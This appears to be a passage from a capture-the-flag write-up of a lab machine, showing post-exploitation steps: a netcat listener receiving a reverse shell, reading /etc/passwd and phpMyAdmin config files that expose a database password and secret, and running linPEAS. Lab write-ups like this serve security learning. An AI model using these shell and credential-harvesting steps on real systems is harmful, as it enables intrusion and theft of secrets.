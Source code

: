 ```bash
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.210.132] 48424
bash: cannot set terminal process group (1312): Inappropriate ioctl for device
bash: no job control in this shell
www-data@funbox7:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Before starting enumerating the box, we can use `python3` to [upgrade it](https://x7331.gitbook.io/boxes/tools/shells/upgrade#script-python) and then read `local.txt` under `/var/www/`.

```bash
www-data@funbox7:/var/www$ ls
html  local.txt
```

There are five users that have a shell on the box, but all of their `/home` directories are empty. Reading the `/etc/passwd` file, we can see that there is another user (`lissy`) that does not have a `/home` directory. We can also see that for the user `oracle` its password hash is included, but, unfortunately, cannot be cracked with `hashcat`.

```bash
www-data@funbox7:/tmp$ cat /etc/phpmyadmin/config-db.php
<SNIP>
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

www-data@funbox7:/tmp$ cat /var/lib/phpmyadmin/blowfish_secret.inc.php
<SNIP>
$cfg['blowfish_secret'] = 'NZ7uiQns?c$8nkrQt^9E(?8OqdhwK!_!';
```

Looking at open ports, we see that there is a MySQL server on `3306`.

```bash
www-data@funbox7:/$ netstat -ltpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Transferring and running [`linpeas.sh`](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the target reveals some interesting files.


[^1]: Remote Code Execution
[^2]: Brute Force Attack
[^3]: Brute Force Attack
[^4]: Living off the Land